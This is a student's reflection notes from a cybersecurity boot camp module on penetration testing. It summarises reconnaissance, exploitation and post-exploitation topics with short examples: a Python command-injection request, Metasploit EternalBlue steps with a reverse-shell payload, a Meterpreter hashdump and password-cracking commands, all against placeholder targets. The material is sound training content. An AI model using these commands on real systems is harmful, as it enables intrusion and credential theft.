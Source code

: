 ```markdown
# Module 15 Reflection: Penetration Testing and Post-Exploitation

Congratulations on completing Module 15 of the Cybersecurity Boot Camp! This module covered a wide range of penetration testing concepts and techniques. Below is a summary of the key topics, along with easy-to-remember examples for future reference.

---

## Key Topics and Examples

### 1. Understand the Role of a Pen Tester in Assessing a Business's Security
- **Role**: Simulate cyberattacks to identify vulnerabilities and provide recommendations.
- **Example**: A pen tester scans a company's web application for SQL injection vulnerabilities and provides a report with remediation steps.

---

### 2. Collect Domain Information Using OSINT Techniques and Tools
- **Tools**: Google Hacking, Shodan, and certificate transparency.
- **Example**:
  - **Google Hacking**: `site:example.com filetype:pdf` to find PDF files on a domain.
  - **Shodan**: `hostname:example.com` to discover devices and services associated with a domain.
  - **Certificate Transparency**: Use [crt.sh](https://crt.sh/) to find subdomains of `example.com`.

---

### 3. Use Shodan and Recon-ng to Discover Domain Server Information
- **Shodan Example**:
  ```plaintext
  hostname:example.com
  ```
  - Reveals open ports and services for `example.com`.
- **Recon-ng Example**:
  ```plaintext
  modules load recon/domains-hosts/shodan_hostname
  run
  ```
  - Automates reconnaissance to gather domain server information.

---

### 4. Understand How Initial Access Fits into the MITRE Matrix
- **Initial Access**: The first step in the MITRE ATT&CK framework, focusing on gaining entry into a target system.
- **Example**: Using a phishing email to deliver a malicious payload that exploits a vulnerability.

---

### 5. Recognize Phishing Emails
- **Indicators**:
  - Suspicious sender.
  - Urgent language.
  - Malicious links or attachments.
- **Example**:
  ```plaintext
  Subject: Urgent: Update Your Account Information
  Link: http://malicious-link.com
  ```

---

### 6. Perform Advanced Nmap Scans with NSE Scripts
- **Example**:
  ```bash
  nmap --script vuln example.com
  ```
  - Scans for vulnerabilities on `example.com`.

---

### 7. Exploit a Machine with a Python Script
- **Example**:
  ```python
  import requests

  target_url = "http://example.com/vulnerable_endpoint"
  payload = {"input": "; id ;"}

  response = requests.post(target_url, data=payload)
  print(response.text)
  ```
  - Exploits a command injection vulnerability.

---

### 8. Understand Command and Control (C2)
- **Definition**: A technique to maintain communication with compromised systems.
- **Example**: Using a C2 server to execute commands on a compromised machine.

---

### 9. Use Metasploit to Automate Exploitation Activities
- **Example**:
  ```plaintext
  msfconsole
  use exploit/windows/smb/ms17_010_eternalblue
  set RHOSTS 192.0.2.1
  set payload windows/x64/meterpreter/reverse_tcp
  exploit
  ```
  - Automates the exploitation of the MS17-010 vulnerability.

---

### 10. Explain Privilege Escalation
- **Definition**: Gaining higher-level privileges on a compromised system.
- **Example**: Exploiting a vulnerable SUID binary on Linux to gain root access.

---

### 11. Perform Basic Privilege alEscation Tasks
- **Windows Example**:
  ```plaintext
  systeminfo
  ```
  - Identifies missing patches for privilege escalation.
- **Linux Example**:
  ```bash
  find / -perm -4000 -type f 2>/dev/null
  ```
  - Finds SUID binaries for potential exploitation.

---

### 12. Describe Common Tasks in Privileged Post-Exploitation
- **Tasks**:
  - Gather sensitive information (e.g., password hashes).
  - Maintain persistence (e.g., create backdoors).
  - Perform lateral movement.
- **Example**: Using `hashdump` in Meterpreter to extract password hashes.

---

### 13. Perform Post-Exploitation Tasks, Such as Gathering Password Hashes
- **Example**:
  ```plaintext
  meterpreter > hashdump
  ```
  - Dumps password hashes from a compromised Windows machine.

---

### 14. Explain How Password Crackers Work and Perform Password Cracking
- **Tools**:
  - **John the Ripper**:
    ```bash
    john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
    ```
  - **Hashcat**:
    ```bash
    hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
    ```

---

### 15. Understand the Importance of Reporting and Fill Out a Strong Report
- **Key Components**:
  - Executive Summary: High-level overview for management.
  - Findings: Detailed technical analysis for system administrators.
  - Recommendations: Actionable steps to mitigate vulnerabilities.
- **Example**:
  ```plaintext
  Vulnerability: SQL Injection
  Severity: Critical
  Recommendation: Implement input validation and parameterized queries.
  ```

---

## Reflection

### What New Topics Did You Learn?
- Advanced Nmap scans with NSE scripts.
- Using Python scripts for exploitation.
- The importance of documenting failed actions during penetration testing.

### How Has Your Understanding Evolved?
- I now have a deeper understanding of how initial access fits into the MITRE ATT&CK framework and how to map actions to it.
- I learned how to balance technical and non-technical content in a penetration testing report.

### What Are You Wondering About?
- How to further automate post-exploitation tasks using custom scripts.
- Best practices for maintaining persistence without triggering alerts.

### Questions
- How can I improve my efficiency in privilege escalation tasks?
- What are the latest tools for detecting and bypassing advanced defensive measures?

---

